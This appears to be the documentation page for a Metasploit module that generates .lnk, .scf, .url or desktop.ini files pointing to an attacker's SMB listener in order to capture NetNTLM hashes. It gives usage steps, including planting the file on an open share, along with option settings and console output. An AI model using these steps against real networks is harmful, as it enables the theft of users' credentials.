 This module dependent on the given filename extension creates either a .lnk, .scf, .url, desktop.ini file which includes a reference to 
the the specified remote host, causing SMB connections to be initiated from any user that views the file. This allows for NetNTLM hashes to be captured
by a listening user.

## Vulnerable Application

Microsoft Windows

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/multidrop```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

**FILENAME**
This option allows you to customise the generated filename and filetpye that is generated.

To generate desktop.ini configure a filename of desktop.ini
To generate a scf file configure a filename of anyname.scf
To generate a url file configure a filename of anyname.url
To generate a lnk file configure a filename of anyname.lnk

Filetype generation is based on the file extension.

**LHOST**
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25


## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(multidrop) > show info

       Name: Windows SMB Multi Dropper
     Module: auxiliary/multidrop
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  desktop.ini      yes       Filename - supports .lnk, .scf, .url, desktop.ini
  LHOST     192.168.1.19     yes       Host listening for incoming SMB/WebDAV traffic

Description:
  This module dependent on the given filename extension creates either 
  a .lnk, .scf, .url, desktop.ini file which includes a reference to 
  the the specified remote host, causing SMB connections to be 
  initiated from any user that views the file.

msf auxiliary(multidrop) > exploit

[+] desktop.ini stored at /root/.msf4/local/desktop.ini
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.lnk
filename => test.lnk
msf auxiliary(multidrop) > exploit

[+] test.lnk stored at /root/.msf4/local/test.lnk
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.scf
filename => test.scf
msf auxiliary(multidrop) > exploit

[+] test.scf stored at /root/.msf4/local/test.scf
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.url
filename => test.url
msf auxiliary(multidrop) > exploit

[+] test.url stored at /root/.msf4/local/test.url
[] Auxiliary module execution completed
msf auxiliary(multidrop) > back
 
  ```